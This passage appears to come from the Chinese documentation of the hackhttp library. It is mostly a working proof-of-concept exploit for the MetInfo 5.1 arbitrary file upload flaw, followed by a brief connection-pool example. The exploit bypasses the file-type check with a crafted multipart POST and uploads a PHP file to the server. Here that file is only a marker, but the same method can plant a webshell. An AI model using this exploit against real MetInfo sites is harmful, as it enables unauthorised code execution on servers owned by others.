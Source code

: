 MetInfo5.1 任意文件上传漏洞中，使用 hackhttp 上传文件：

```
#!/usr/bin/env python
# coding:utf-8
import hackhttp

target = "http://127.0.0.1/metinfo5.1/"
url = target + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo"

raw = '''POST /feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo HTTP/1.1
Host: localhost
Content-Length: 423
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE1toBNeESf6p0uXQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=hfqa37uap92gdaoc2nsco6g0n1

------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][para]"

filea
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][type]"

5
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="filea"; filename="test.php"
Content-Type: application/x-php

<?php echo md5(1);unlink(__FILE__);?>
------WebKitFormBoundaryE1toBNeESf6p0uXQ--
    '''
hh = hackhttp.hackhttp()
code, head, body, redirect, log = hh.http(url, raw=raw)

```

#### HTTP 连接池<div id="connectionpool"></div>

创建拥有 500 个连接的连接池：

```
>>> import hackhttp
>>> hh = hackhttp.hackhttp(hackhttp.httpconpool(500))
```
hackhttp 会选择空闲状态的连接，发送 HTTP 报文，节省建立连接的时间，连接池中默认连接数为 10.

